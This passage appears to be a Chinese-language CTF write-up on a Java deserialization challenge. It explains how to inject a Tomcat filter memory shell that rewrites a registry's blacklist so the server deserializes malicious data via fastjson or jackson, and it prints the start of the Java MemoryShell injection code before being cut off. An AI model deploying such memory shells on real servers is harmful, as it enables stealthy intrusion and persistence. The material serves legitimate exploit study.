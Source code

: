 访问注册中心的`/client/status`，其会请求服务端的`/status`，调用update更新黑名单，若返回的是List则直接更新`denyClasses`，若为字符串，则先进行反序列化后再更新

![image-20230728011146258](E:\MyBook\Java_Zoo\.gitbook\assets\image-20230728011146258.png)

![image-20230728011408073](E:\MyBook\Java_Zoo\.gitbook\assets\image-20230728011408073.png)

`DefaultSerializer#deserialize`还会判断传入的`denyClasses`是否为空，若为空则读取原始的黑名单。

因此我们通过注入filter内存马来改写注册中心返回的黑名单为一些没用的数据，先清除服务端黑名单，然后再改写一次，让其返回恶意的序列化数据，让服务端对请求`/blacklist/jdk/get`返回的数据进行反序列化，打原生fastjson或jackson。

为了回显，同样需要改写服务端的返回包，注入filter来改写`/status`的返回数据为读取的flag

```java
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Map;

public class MemoryShell implements Filter {

    private static String uri;
    private static String filterName = "DefaultFilter";

    public MemoryShell(String uri) {
    }

    public MemoryShell() {
        try {
            System.out.println("try to inject");
            ThreadLocal threadLocal = init();

            if (threadLocal != null && threadLocal.get() != null) {
                System.out.println("try to inject to request");
                ServletRequest servletRequest = (ServletRequest) threadLocal.get();
                ServletContext servletContext = servletRequest.getServletContext();

                ApplicationContext applicationContext = (ApplicationContext) getFieldObject(servletContext, servletContext.getClass(), "context");

                StandardContext standardContext = (StandardContext) getFieldObject(applicationContext, applicationContext.getClass(), "context");
                Map filterConfigs = (Map) getFieldObject(standardContext, standardContext.getClass(), "filterConfigs");

                if (filterConfigs.get(filterName) != null) {
                    filterConfigs.remove(filterName); // 重新注册
                }

                MemoryShell filter = new MemoryShell(uri);

                FilterDef filterDef = new FilterDef();
                filterDef.setFilterName(filterName);
                filterDef.setFilterClass(filter.getClass().getName());
                filterDef.setFilter(filter);
```